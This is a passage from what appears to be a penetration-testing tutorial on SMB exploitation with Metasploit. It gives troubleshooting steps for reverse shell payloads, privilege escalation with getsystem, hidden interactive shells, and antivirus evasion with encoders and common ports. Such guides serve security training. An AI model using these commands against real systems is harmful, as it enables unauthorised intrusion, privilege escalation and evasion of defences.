 ```bash
set payload windows/shell/reverse_tcp
# Use basic shell if meterpreter fails
```

**Solutions:**
- Use payload encoders to evade antivirus detection
- Try different ports for reverse connections (443, 53, 8080)
- Check firewall rules aren't blocking reverse connections
- Use basic shell payloads if meterpreter consistently fails

---

### **❌ Problem 4: Cannot Access System Shell**
**What You See:**
```bash
meterpreter > shell
[-] Failed to execute command: Operation failed: Access is denied.
```

**How to Fix:**
```bash
# Step 1: Check current user privileges
getuid
# Verify you have sufficient privileges

# Step 2: Attempt privilege escalation
getsystem
# Try to escalate to SYSTEM level

# Step 3: Use meterpreter commands instead
sysinfo
ps
# Use built-in meterpreter commands

# Step 4: Try alternative shell methods
execute -f cmd.exe -i -H
# Interactive command shell execution
```

**Solutions:**
- Check user privileges with getuid before attempting shell access
- Use getsystem for privilege escalation when needed
- Rely on meterpreter built-in commands when shell access fails
- Try execute command with interactive flags for shell access

---

## 🔗 Using SMB Exploitation With Other Tools

### **🎯 Complete Assessment Workflow: Nmap → Metasploit → Post-Exploitation Tools**
